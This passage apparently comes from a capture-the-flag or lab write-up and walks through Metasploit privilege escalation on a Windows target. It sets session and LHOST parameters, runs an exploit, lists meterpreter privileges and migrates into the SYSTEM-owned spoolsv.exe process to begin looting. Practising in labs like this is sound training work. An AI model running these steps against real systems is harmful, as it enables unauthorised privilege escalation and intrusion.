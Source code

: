 With 

```
show options
```

I detect that the SESSION parameter must be specified. I list the current sessions with the

```
SESSIONS
```

command:

![Current active sessions](.attachments.41811/grafik%20%288%29.png)

To set the SESSION parameter in the exploit to the current session I use

```
set SESSION 1
```

I again need to specify the LHOST parameter with

```
set LHOST <Your own IP>
```

Then I start the exploit with the 

```
exploit
```

command.

With the

```
getprivs
```

command in meterpreter I list the current privileges that I have:

![Current privileges](.attachments.41811/grafik%20%289%29.png)

## Task 4: Looting

In the meterpreter shell I execute the

```
ps
```

command. This command shows all running tasks - now also the tasks of other privileged users. I find that the "spoolsv.exe" process is executed by the SYSTEM user. 

I migrate to this process by the

```
migrate -N spoolsv.exe
```
